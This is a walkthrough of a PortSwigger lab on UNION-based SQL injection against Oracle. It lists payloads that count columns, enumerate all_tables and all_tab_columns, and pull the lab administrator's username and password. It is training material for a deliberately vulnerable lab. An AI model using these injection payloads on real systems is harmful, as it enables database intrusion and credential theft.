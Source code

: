 [Lab: SQL injection attack, listing the database contents on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)

## Steps

1. **Access the Lab**  
   - Navigate to the lab and click the "Accessories" category to send:  
     `GET /filter?category=Accessories`.  
   - Capture this request in Burp Suite.

2. **Determine Number of Columns**  
   - Test columns with `ORDER BY`:  
     - `category=Accessories' ORDER BY 1--`: 200 OK.  
     - `category=Accessories' ORDER BY 2--`: 200 OK.  
     - `category=Accessories' ORDER BY 3--`: 500 Error.  
   - **Result**: 2 columns.

3. **Check Column Data Types**  
   - Use `UNION SELECT` with `FROM dual` (Oracle-specific):  
     - `category=Accessories' UNION SELECT 'a','a' FROM dual--`: 200 OK.  
     - `category=Accessories' UNION SELECT 'a',NULL FROM dual--`: 200 OK.  
     - `category=Accessories' UNION SELECT NULL,'a' FROM dual--`: 200 OK.  
     - `category=Accessories' UNION SELECT NULL,NULL FROM dual--`: 200 OK.  
   - **Result**: Both columns accept string or NULL values.

4. **List Table Names**  
   - Query `all_tables` for table names:  
     - `category=Accessories' UNION SELECT TABLE_NAME,NULL FROM all_tables--`.  
   - **Result**: Finds table `USERS_ZCPUOJ`.

5. **List Column Names**  
   - Query `all_tab_columns` for columns in `USERS_ZCPUOJ`:  
     - `category=Accessories' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name = 'USERS_ZCPUOJ'--`.  
   - **Result**: Finds columns `USERNAME_AZDTVG` and `PASSWORD_HULAXY`.

6. **Retrieve Credentials**  
   - Extract data from `USERS_ZCPUOJ`:  
     - `category=Accessories' UNION SELECT USERNAME_AZDTVG,PASSWORD_HULAXY FROM USERS_ZCPUOJ--`.  
   - **Result**: Gets credentials:  
     - Username: `administrator`  
     - Password: `07gxctwbujdgjrem7zyo`.

7. **Login and Solve**  
   - Log in with `administrator` / `07gxctwbujdgjrem7zyo` on the lab’s login page.  
   - Lab solved upon successful login.

## Notes
- Oracle requires `FROM dual` in `UNION SELECT` queries for standalone expressions.  
- Use `all_tables` and `all_tab_columns` (Oracle-specific) instead of `information_schema` used in non-Oracle databases.  
